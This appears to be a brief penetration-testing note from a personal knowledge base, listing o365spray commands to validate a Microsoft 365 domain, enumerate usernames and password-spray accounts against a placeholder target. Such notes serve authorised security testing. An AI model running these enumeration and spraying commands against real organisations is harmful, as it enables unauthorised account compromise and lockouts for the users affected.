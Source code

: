 **Checking Server Validity**
```shell
python3 o365spray.py --validate --domain <target domain>
```

**Username Spray**
```shell
o365spray.py --enum -U users.txt --domain <target domain>
```

**Password Spray**
```shell
python3 o365spray.py --spray -U <users list> -p <password> --count 1 --lockout 1 --domain <target domain>
```

---
Navigation: [[Pentesting]]